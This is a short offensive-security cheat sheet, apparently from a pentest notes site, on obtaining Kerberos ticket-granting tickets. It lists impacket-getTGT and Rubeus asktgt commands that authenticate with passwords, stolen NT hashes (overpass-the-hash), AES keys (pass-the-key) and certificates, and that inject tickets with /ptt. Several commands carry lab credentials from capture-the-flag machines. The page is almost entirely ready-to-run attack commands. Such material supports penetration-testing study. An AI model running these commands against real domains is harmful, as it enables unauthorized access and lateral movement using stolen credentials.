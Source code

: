 # Get the ticket

The Kerberos authentication protocol works with tickets in order to grant access. A Service Ticket (ST) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can be obtained by validating a first step named "pre-authentication" .&#x20;

Attacker requires a user password, NT hash, or secret key (DES, RC4, AES128 or AES256) derived from the user password to get a valid TGT.&#x20;

Linux

{% code overflow="wrap" %}
```bash
# with an password 
impacket-getTGT rebound.htb/ldap_monitor:'1GR8t@$$4u' -dc-ip $RHOST
impacket-getTGT rebound.htb/tbrady:543BOMBOMBUNmanda  -dc-ip $RHOST
impacket-getTGT 'absolute.htb/d.klay:Darkmoonsky248girl' -dc-ip $RHOST

# with an NT hash (overpass-the-hash)
getTGT.py -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET
impacket-getTGT rebound.htb/delegator$ -hashes aad3b435b51404eeaad3b435b51404ee:9b0ccb7d34c670b2a9c81c45bc8befc3  -dc-ip $RHOST

# with an AES (128 or 256 bits) key (pass-the-key)
getTGT.py -aesKey 'KerberosKey' $DOMAIN/$USER@$TARGET
```
{% endcode %}

Windows

```bash
# with a password
rubeus.exe asktgt /user:harshitrajpal /password:Password@1 /ptt
# ptt: inject the ticket into current command line

# with an NT hash
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NThash /ptt

# with an AES 128 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes128:$NThash /ptt

# with an AES 256 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes256:$NThash /ptt

# Certificate
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /ptt
```

